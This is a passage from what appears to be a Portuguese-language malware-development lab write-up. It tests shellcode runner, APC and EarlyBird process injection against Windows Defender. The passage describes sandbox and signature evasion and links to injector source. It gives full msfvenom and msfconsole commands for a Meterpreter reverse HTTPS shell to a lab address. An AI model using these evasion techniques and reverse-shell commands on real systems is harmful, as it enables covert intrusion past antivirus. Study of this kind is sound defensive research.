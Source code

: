 - Detecção de ambientes Sandbox para evasão de Antivírus, via `GetSystemTime` (delay de 10 segundos na execução). Caso uma sandbox seja detectada, o processo deverá encerrar;
- Evasão de assinaturas com uso de encoder ROT7 para armazenar o shellcode no injetor. O código do ofuscador ROT7 está disponível no [Github](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/ShellcodeObfuscator), sendo apenas necessário alterar a variável global "shellcode" para o shellcode gerado.

O Shellcode Runner é nosso teste de controle, e os demais serão colocados à prova com relação à sua efetividade de acordo com a detecção/bloqueio recebidas no laboratório controlado.

> Comando utilizado para gerar shell reversa x64 staged HTTPS do meterpreter ofuscada com o encoder x64/xor:
> - `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.2 LPORT=443 EXITFUNC=thread -f c`
> 
> Comando para criar um listener no meterpreter
> - `msfconsole -x "use multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.100.2; set LPORT 443; set EXITFUNC thread; exploit"`

### Resultados Shellcode Runner
O código do Shellcode Runner utilizado está disponível [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/ShellcodeExecutor). 

Como explicado anteriormente, estamos utilizando o Shellcode Runner apenas como ponto de controle. Caso ele não seja detectado, então nossos níveis-padrão de ofuscação e evasão possivelmente são os responsáveis principais por esse resultado, e não as injeções APC. Caso contrário, temos uma boa probabilidade de que as técnicas que não foram detectadas obtiveram sucesso por causa da injeção realizada.

Tal artefato foi identificado e bloqueado antes mesmo de executar qualquer instrução, evidenciando que apenas as evasões de assinatura e de sandbox existentes não seriam capazes de evadir o Windows Defender.

![1fe26686d7e5d87fdb07420e06a85817.png](../img/maldev-0x00/1fe26686d7e5d87fdb07420e06a85817.png)

### Resultados APC Injector
O código do APC Injector utilizado está disponível [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/APCInjector). 

A injeção foi realizada no *explorer.exe*, porém, houve bloqueio do Windows Defender pouco após o estabelecimento da shell reversa, como destacado na imagem abaixo.

![2ec798d5ca8bc8637f19dc256a6184a3.png](../img/maldev-0x00/2ec798d5ca8bc8637f19dc256a6184a3.png)

### Resultados EarlyBird

O código do EarlyBird utilizado está disponível [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/EarlyBird).

Devido à natureza da injeção EarlyBird, podemos utilizá-la para enfileirar APCs em praticamente qualquer processo que possa ser criado diretamente por nosso usuário. Logo, vamos fazer alguns testes com relação aos processos *explorer.exe* e *svchost.exe*.

O motivo para a escolha desses dois arquivos em específico é que o explorer.exe é um processo muito comum e que existe sempre em qualquer sistema Windows, que pode passar despercebido por softwares Antivírus. Já o svchost.exe também é comum e geralmente não gera suspeitas com relação ao tráfego de rede.
